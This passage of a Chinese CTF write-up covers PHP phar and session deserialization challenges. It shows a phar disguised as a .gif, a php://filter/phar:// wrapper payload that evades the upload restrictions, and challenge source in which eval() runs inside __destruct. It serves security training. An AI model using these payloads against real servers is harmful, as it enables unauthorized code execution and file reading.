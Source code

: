 ```php
//签名自动计算
$phar->stopBuffering();
rename("1.phar", "9.gif");
?>
```

生成一个文件，上传后，为绕过其协议限制，我们使用php://filter伪协仪来绕过

```php
php://filter/read=convert.base64-encode/resource=phar://./upload/xxx.gif
```

复现是在`BUUCTF`中进行的，然后我们得使用这个平台提供的内网靶机，使用curl带出flag。

### 0x03 jarvisoj

浙大的一道题，主要考察session反序列化，session.upload_progress.enabled的使用，这个我觉得算是一个小trick。

题目地址：[http://web.jarvisoj.com:32784/](http://web.jarvisoj.com:32784)

源码：

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

使用反序列化的话，一旦控制了`$mdzz`，我们们就可以通过`_destruct()`，进行文件读取。

![](/home/cookie/Pictures/blogs/11.png)
